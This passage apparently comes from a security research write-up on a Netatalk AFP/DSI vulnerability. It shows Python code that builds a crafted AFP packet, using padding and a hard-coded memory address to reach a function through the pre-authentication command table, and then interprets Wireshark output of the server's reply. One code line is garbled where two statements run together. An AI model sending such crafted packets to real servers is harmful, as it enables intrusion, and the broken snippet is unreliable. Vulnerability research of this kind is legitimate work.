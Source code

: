 and our AFP command packet should look like this:

```
afp_payload = "\x01" # index of command we want to run  
afp_payload += "\x00" # pad byte  
afp_payload += "\x00\x00\x00\x00\x00\x00" # additional 6 byte padding so we can reach second index of preauth table  
afp_payload += "\xa0\x63\x58\x55\x55\x55\x00\x00" # address of afp_getsrvrinfodsi_header = "\x00" # request flag  
dsi_header += "\x02" # DSI Command  
dsi_header += "\x41\x41" # Request ID  
dsi_header += "\x00\x00\x00\x00" # Error code not set by client  
dsi_header += struct.pack(">I", len(afp_payload)) # AFP payload size  
dsi_header += "\x00\x00\x00\x00" # Reserved field
```

The wireshark output is a little off as it interprets the 0x01 command code as FPByteRangeLock, which makes sense since that is the function located at index 0x01 in the **postauth_switch** table, but looking at the data that was returned, we can see that the server is actually returning the information related to **afp_getsrvrinfo.**

![](/images/1_W1AUDHCi9sXJNfoNqJfVbA.png)

This becomes even more apparent when we look at the raw output of the AFP reply which contains the server name (**mern** in this case), the Netatalk version and supported AFP versions:

![](/images/1_CGXiCzbJD95-AzMNKEmIBw.png)
